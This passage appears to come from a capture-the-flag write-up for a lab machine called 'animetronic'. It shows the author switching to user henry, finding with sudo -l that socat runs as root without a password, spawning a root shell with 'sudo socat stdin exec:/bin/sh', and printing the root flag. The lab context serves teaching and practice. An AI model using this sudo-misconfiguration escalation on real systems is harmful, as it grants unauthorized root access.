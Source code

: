 So:

``` bash
michael@animetronic:/home/henry$ su henry
Password: 
henry@animetronic:~$ sudo -l
Matching Defaults entries for henry on animetronic:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User henry may run the following commands on animetronic:
    (root) NOPASSWD: /usr/bin/socat
```

We can run socat as root, so thanks to GTFObins:

``` bash
sudo socat stdin exec:/bin/sh
```

And there we are:

``` bash
henry@animetronic:~$ sudo socat stdin exec:/bin/sh
whoami
root
cat /root/root.txt
153a1b940365f46ebed28d74f142530f280a2c0a
```


